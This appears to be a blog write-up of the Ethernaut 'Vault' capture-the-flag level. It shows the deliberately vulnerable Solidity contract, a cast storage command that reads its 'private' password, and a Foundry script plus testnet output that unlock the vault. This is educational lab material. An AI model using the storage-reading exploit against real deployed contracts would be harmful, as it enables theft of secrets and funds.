 ```yaml
---
layout: post
title: "[Ethernaut] Vault"
tags: blockchain ethernaut foundry
---
```


# Analysis

---

The goal is

1. Unlock the vault

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

Because the blockchain is transparent, secret keys cannot be stored on it.

# Exploit

---

```bash
$ cast storage 0x65E998C6f70c90f149553c967BA4a38Ecc6213A9 1
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

![Image cyberchef]({{site.url}}/images/2025-04-19-Vault/cyberchef.png)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Vault.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract ValutSol is Script {
    Vault public vault_ = Vault(0x65E998C6f70c90f149553c967BA4a38Ecc6213A9);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        vault_.unlock(0x412076657279207374726f6e67207365637265742070617373776f7264203a29);

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/VaultSol.sol --broadcast
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠒] Solc 0.8.29 finished in 322.36ms
Compiler run successful!
Script ran successfully.

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.00101144 gwei

Estimated total gas used for script: 36108

Estimated amount required: 0.00000003652107552 ETH

==========================

##### holesky
✅  [Success] Hash: 0x14d0aaca36fb737a61c0a533652da5a4d2314117698a64a1788ec28633d7f1b1
Block: 3685538
Paid: 0.000000026441866776 ETH (26143 gas * 0.001011432 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000026441866776 ETH (26143 gas * avg 0.001011432 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image locked]({{site.url}}/images/2025-04-19-Vault/locked.png)

![Image complete]({{site.url}}/images/2025-04-19-Vault/complete.png)